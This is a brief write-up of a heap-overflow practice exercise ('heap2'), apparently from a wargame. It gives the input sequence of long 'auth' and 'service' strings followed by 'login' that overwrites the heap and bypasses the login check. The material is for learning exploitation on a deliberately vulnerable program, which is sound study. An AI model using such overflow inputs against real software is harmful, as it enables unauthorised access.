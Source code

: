 This one seems to be really simple. The heap becomes overwritten with large enough inputs. I passed just by messing around with various inputs.

E.g.

`./heap2`
`auth AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`
`service BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB`
`login`

You should see `you have logged in already!`

